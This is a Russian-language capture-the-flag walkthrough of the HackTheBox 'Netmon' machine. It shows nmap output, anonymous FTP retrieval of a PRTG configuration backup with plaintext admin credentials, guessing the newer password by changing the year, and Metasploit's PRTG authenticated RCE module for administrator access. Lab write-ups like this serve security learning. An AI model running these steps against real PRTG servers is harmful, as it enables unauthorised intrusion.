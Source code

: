 # Netmon (Windows, Easy)

![](<../../../../.gitbook/assets/1 (1).png>)

### Содержание:

В самом начале мы сканируем порты и видим, что доступ к ftp открыт через anonymous, также мы сразу же можем прочитать флаг юзера. На 80 порту мы обнаруживаем PRTG Network Monitor. Мы можем найти файл PRTG Configuration.old.bak, где обнаружим следующие данные prtgadmin:PrTg@dmin2018. К сожалению, они не подходят. Выход следующий: это старый файл, т.е. это бэкап, машина вышла в 2019, а в пароле 2018, мы можем попробовать PrTg@dmin2019 в качестве пароля и он подойдет. Затем, мы используем эксплойт из метасплоита, который нам даст удаленный доступ с правами администратора.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.10.152 -oN nmap
```

```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-30T22:14:04
|_  start_date: 2022-01-30T22:13:01
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 5m18s, deviation: 0s, median: 5m18s
```

### Получаем флаг юзера и бэкап:

![](<../../../../.gitbook/assets/2 (1) (1).png>)

### Скачиваем и читаем бэкап:

Переходим через ftp по пути /ProgramData/Paessler/PRTG Network Monitor и качаем PRTG Configuration.old.bak:

```
ftp> mget "PRTG Configuration.old.bak"
```

В данном файле мы находим следующие креды:

```
prtgadmin:PrTg@dmin2018
```

### Включаем логику и подбираем пароль:

Пробуем авторизоваться на 80 порту и ничего не получается. Так как PRTG Configuration.old.bak - это старый файл, т.е. это бэкап, машина вышла в 2019, а в пароле 2018, мы можем попробовать PrTg@dmin2019 в качестве пароля и он подойдет.

### Используем эксплоит для получения RCE с правами администратора:

Теперь мы можем использовать данный эксплоит из метасплоита:

```
exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE
```

Настраиваем его так:

![](<../../../../.gitbook/assets/3 (1) (1).png>)

Теперь мы имеем доступ от имени администратора и можем прочитать root.txt:

![](<../../../../.gitbook/assets/4 (1).png>)
